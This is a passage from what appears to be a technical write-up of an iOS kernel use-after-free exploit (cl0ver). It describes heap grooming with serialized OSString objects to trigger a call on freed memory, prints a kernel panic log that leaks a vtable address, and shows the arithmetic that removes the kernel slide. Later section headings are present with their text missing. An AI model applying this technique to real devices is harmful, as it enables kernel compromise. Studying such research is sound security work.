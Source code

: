 `kOSSerializeString` will cause an `OSString` to get allocated, hopefully in one of those lonely holes we've punched into the heap, and when it is freed again shortly after, we're left with `objsArray[1]` holding a pointer to that chunk of memory that is surrounded by allocated `OSString`s.  
`kOSSerializeObject` will then attempt to call `retain()` on that chunk of freed memory, thus unfolding the process explained above, ultimately causing a kernel panic and logging the vtable address in the panic log:

    panic(cpu 0 caller 0xffffff801befcc1c): "Kernel instruction fetch abort: pc=0xffffff801c2ef1f0 iss=0xf far=0xffffff801c2ef1f0. Note: the faulting frame may be missing in the backtrace."
    Debugger message: panic
    OS version: 13G34
    Kernel version: Darwin Kernel Version 15.6.0: Mon Jun 20 20:10:22 PDT 2016; root:xnu-3248.60.9~1/RELEASE_ARM64_S8000
    iBoot version: iBoot-2817.60.2
    secure boot?: YES
    Paniclog version: 5
    Kernel slide:     0x0000000017e00000
    Kernel text base: 0xffffff801be04000
    Epoch Time:        sec       usec
      Boot    : 0x58225b8c 0x00000000
      Sleep   : 0x00000000 0x00000000
      Wake    : 0x00000000 0x00000000
      Calendar: 0x58225bec 0x00028e96

    Panicked task 0xffffff811d67bdc0: 78 pages, 1 threads: pid 748: cl0ver
    panicked thread: 0xffffff811f2f9000, backtrace: 0xffffff8012f03120
              lr: 0xffffff801bf043c4  fp: 0xffffff8012f03170
              lr: 0xffffff801be2e11c  fp: 0xffffff8012f031d0
              lr: 0xffffff801befcc1c  fp: 0xffffff8012f032c0
              lr: 0xffffff801befb1f0  fp: 0xffffff8012f032d0
              lr: 0xffffff801c1f0678  fp: 0xffffff8012f03720
              lr: 0xffffff801c25b4cc  fp: 0xffffff8012f03840
              lr: 0xffffff801bedaa00  fp: 0xffffff8012f038a0
              lr: 0xffffff801be194c8  fp: 0xffffff8012f03a30
              lr: 0xffffff801be27b78  fp: 0xffffff8012f03ad0
              lr: 0xffffff801befd6b0  fp: 0xffffff8012f03ba0
              lr: 0xffffff801befbd40  fp: 0xffffff8012f03c90
              lr: 0xffffff801befb1f0  fp: 0xffffff8012f03ca0
              lr: 0x00000001819b0fd8  fp: 0x0000000000000000

`0xffffff801c2ef1f0 - 0x0000000017e00000 = 0xffffff80044ef1f0`, there we go.

*The full implementation for this can be found in `uaf_panic.c`.*

#### The ugly: semi-blind guessing



## Part Two: Dumping the kernel



*The full implementation for this can be found in `uaf_read.c`.*

## Part Three: ROP
